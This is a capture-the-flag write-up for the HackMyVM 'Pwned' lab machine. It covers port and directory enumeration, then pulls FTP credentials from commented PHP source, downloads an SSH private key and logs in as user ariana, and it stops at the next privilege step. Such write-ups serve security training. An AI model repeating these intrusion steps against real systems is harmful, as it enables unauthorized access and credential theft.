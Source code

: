 ```yaml
---
title: HackMyVM - Pwned
description: My writeup on Pwned box.
categories:
 - HackMyVM
tags: HackMyVM
---
```


![](https://i.imgur.com/xrT5rc4.png)

You can start playing there > [HackMyVM](https://hackmyvm.eu/){:target="_blank"}

## Summary

Let’s pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.18
$ nmap -p- --min-rate 10000 $ip 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 12:51 EEST
Nmap scan report for pwned.zte.com.cn (192.168.1.18)
Host is up (0.00040s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:2D:DE:08 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.17 seconds
$ nmap -p 21,22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 12:51 EEST
Nmap scan report for pwned.zte.com.cn (192.168.1.18)
Host is up (0.00039s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 fe:cd:90:19:74:91:ae:f5:64:a8:a5:e8:6f:6e:ef:7e (RSA)
|   256 81:32:93:bd:ed:9b:e7:98:af:25:06:79:5f:de:91:5d (ECDSA)
|_  256 dd:72:74:5d:4d:2d:a3:62:3e:81:af:09:51:e0:14:4a (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Pwned....!!
```

Let's start the enumeration with port 80 with a `gobuster` scan.

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
/index.html (Status: 200)
/robots.txt (Status: 200)
/nothing (Status: 301)
/server-status (Status: 403)
/hidden_text (Status: 301)
```

`/hidden_text` directory has a file in with a wordlist, let's save it into a .txt and run dirb with it.

```
$ curl http://192.168.1.18/hidden_text/secret.dic | tee wordlist.txt
$ dirb http://$ip/ wordlist.txt 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Oct  1 13:17:42 2020
URL_BASE: http://192.168.1.18/
WORDLIST_FILES: wordlist.txt

-----------------

GENERATED WORDS: 21                                                            

---- Scanning URL: http://192.168.1.18/ ----
+ http://192.168.1.18//pwned.vuln (CODE:301|SIZE:317)               
```

`/pwned.vuln` has a login page but if we check the source code we can detect some ftp creds:

```php
<?php
//	if (isset($_POST['submit'])) {
//		$un=$_POST['username'];
//		$pw=$_POST['password'];
//
//	if ($un=='ftpuser' && $pw=='B0ss_B!TcH') {
//		echo "welcome"
//		exit();
// }
// else 
//	echo "Invalid creds"
// }
?>
```

## Shell as ariana

Now we can login as `ftpuser:B0ss_B!TcH` on FTP, after we login in let's download all the files:

```
$ ftp $ip
Connected to 192.168.1.18.
220 (vsFTPd 3.0.3)
Name (192.168.1.18:root): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jul 10 12:47 share
226 Directory send OK.
ftp> cd share
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            2602 Jul 09 15:05 id_rsa
-rw-r--r--    1 0        0              75 Jul 09 17:41 note.txt
226 Directory send OK.
ftp> get id_rsa
local: id_rsa remote: id_rsa
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for id_rsa (2602 bytes).
226 Transfer complete.
2602 bytes received in 0.00 secs (3.5756 MB/s)
ftp> get note.txt
local: note.txt remote: note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (75 bytes).
226 Transfer complete.
75 bytes received in 0.00 secs (85.9650 kB/s)
ftp> exit
```

`note.txt` provide us a username:

```
Wow you are here 

ariana won't happy about this note 

sorry ariana :( 
```

Let's use the ssh private key with user ariana to connect on server:

```
$ chmod 600 id_rsa
$ ssh -i id_rsa ariana@$ip

ariana@pwned:~$ whoami;id
ariana
uid=1000(ariana) gid=1000(ariana) groups=1000(ariana),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
```

## Shell as selena
